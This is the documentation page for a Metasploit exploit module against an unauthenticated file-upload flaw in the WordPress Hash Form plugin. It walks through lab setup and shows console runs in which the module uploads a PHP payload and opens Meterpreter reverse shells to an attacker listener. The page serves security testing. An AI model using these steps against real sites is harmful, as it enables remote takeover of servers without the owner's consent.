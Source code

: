 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in WordPress Hash Form
plugin, versions prior to 1.1.1.
The vulnerability is due to an unauthenticated file upload flaw in the plugin.
To replicate a vulnerable environment for testing:

1. Install WordPress.
2. Download and install the Hash Form plugin, ensuring the version is below 1.1.1.
3. Verify that the plugin is activated and accessible on the local network.
4. Create any form

## Verification Steps

1. Set up a WordPress instance with the Hash Form plugin (version < 1.1.1).
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/wp_hash_form_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

No option

## Scenarios

### Successful Exploitation Against Local WordPress with Hash Form 1.10

**Setup**:

- Local WordPress instance with Hash Form version 1.1.0.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module:
```
use exploit/multi/http/wp_hash_form_rce
```
3. Set `RHOSTS` to the local IP (e.g., 192.168.1.11).
4. Configure other necessary options (TARGETURI, SSL, etc.).
5. Launch the exploit:
```
exploit
```

**Expected Results**:

With `php/meterpreter/reverse_tcp`

```
msf > search wp_hash_form_rce

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_hash_form_rce    2024-05-23       excellent  Yes    WordPress Hash Form Plugin RCE
   1    \_ target: Automatic                 .                .          .      .
   2    \_ target: PHP In-Memory             .                .          .      .
   3    \_ target: Unix/Linux Command Shell  .                .          .      .
   4    \_ target: Windows Command Shell     .                .          .      .


Interact with a module by name or index. For example info 4, use 4 or use exploit/multi/http/wp_hash_form_rce
After interacting with a module you can manually set a TARGET with set TARGET 'Windows Command Shell'

msf > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf exploit(multi/http/wp_hash_form_rce) > options

Module options (exploit/multi/http/wp_hash_form_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory



View the full module info with the info, or info -d command.

msf exploit(multi/http/wp_hash_form_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(multi/http/wp_hash_form_rce) > set rport 8080
rport => 8080
msf exploit(multi/http/wp_hash_form_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Detected Hash Form plugin version: 1.1.0
[+] The target appears to be vulnerable.
[*] Attempting to retrieve nonce from the target...
[+] Nonce retrieved: c037ee0b47
[*] Uploading PHP payload using the retrieved nonce...
[+] PHP payload uploaded successfully to http://localhost:8080/wp-content/uploads/hashform/temp/zumchnzt.php
[*] Triggering the payload at http://localhost:8080/wp-content/uploads/hashform/temp/zumchnzt.php...
[*] Sending stage (39927 bytes) to 172.20.0.3
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.20.0.3:52596) at 2024-05-28 17:52:51 +0200

meterpreter > sysinfo 
Computer    : 92b664be9b0c
OS          : Linux 92b664be9b0c 5.15.0-91-generic #101-Ubuntu SMP Tue Nov 14 13:30:08 UTC 2023 x86_64
Meterpreter : php/linux
```

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf exploit(multi/http/wp_hash_form_rce) > options

Module options (exploit/multi/http/wp_hash_form_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      KtElgOyozC       no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       5555             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Unix/Linux Command Shell



View the full module info with the info, or info -d command.

msf exploit(multi/http/wp_hash_form_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Detected Hash Form plugin version: 1.1.0
[+] The target appears to be vulnerable.
[*] Attempting to retrieve nonce from the target...
[+] Nonce retrieved: c037ee0b47
[*] Uploading PHP payload using the retrieved nonce...
[+] PHP payload uploaded successfully to http://localhost:8080/wp-content/uploads/hashform/temp/roeylnhj.php
[*] Triggering the payload at http://localhost:8080/wp-content/uploads/hashform/temp/roeylnhj.php...
[*] Sending stage (3045380 bytes) to 172.20.0.3
[*] Meterpreter session 1 opened (192.168.1.36:4444 -> 172.20.0.3:53478) at 2024-05-28 18:03:35 +0200

meterpreter > sysinfo
Computer     : 172.20.0.3
OS           : Debian 12.5 (Linux 5.15.0-91-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

- The module attempts to retrieve a nonce from the local server.
- It then uploads and executes the payload.
- If successful, control over the local WordPress instance is gained, depending on the payload used.
